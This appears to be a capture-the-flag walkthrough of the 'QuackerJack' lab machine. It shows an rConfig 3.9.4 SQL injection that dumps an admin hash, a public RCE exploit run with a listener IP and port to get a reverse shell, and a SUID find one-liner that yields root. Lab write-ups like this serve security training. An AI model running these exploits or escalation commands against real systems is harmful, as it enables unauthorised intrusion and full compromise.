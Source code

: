 # QuackerJack

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.233.57 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 16:48 +08
Nmap scan report for 192.168.233.57
Host is up (0.17s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8081/tcp open  blackice-icecap
```

### FTP Anonymous Fail

The FTP service does allow anonymous logins, but it just hangs:

```
$ ftp 192.168.233.57
Connected to 192.168.233.57.
220 (vsFTPd 3.0.2)
Name (192.168.233.57:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32438|).
```

Nothing much there.

### SQL Injection --> RCE

Port 8081 was hosting an `rConfig` instance:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

This version was vulnerable to a few exploits:

```
$ searchsploit rConfig 3.9.4
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
rConfig 3.9.4 - 'search.crud.php' Remote Command Injection | php/webapps/48241.py
rConfig 3.9.4 - 'searchField' Unauthenticated Root Remote  | php/webapps/48261.py
----------------------------------------------------------- ---------------------------------
```

The bottom one just didn't work, while the top one requires credentials to work. There a few other exploits that I found online, such as an SQL Injection here:

{% embed url="https://www.exploit-db.com/exploits/48208" %}

The above exploit was tested on Version 3.9.4, so it should work.

```
$ python3 sql.py https://192.168.233.57:8081
rconfig 3.9 - SQL Injection PoC
[+] Triggering the payloads on https://192.168.233.57:8081/commands.inc.php
[+] Extracting the current DB name :
rconfig
[+] Extracting 10 first users :
admin:1:dc40b85276a1f4d7cb35f154236aa1b2
```

The above hash is crackable on CrackStation.

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

We can then run the RCE exploit `48241.py`:

```
$ python3 48241.py https://192.168.233.57:8081 admin abgrtyu 192.168.45.161 21
```

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### Find SUID --> Root Shell

We can enumerate for SUID binaries on this machine:

```
bash-4.2$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/find
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/sudo
/usr/bin/mount
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/fusermount
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

We can run `find` as the `root` user. Following GTFOBins, we just need to run this:

```
./find . -exec /bin/sh -p \; -quit
```

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

Rooted!

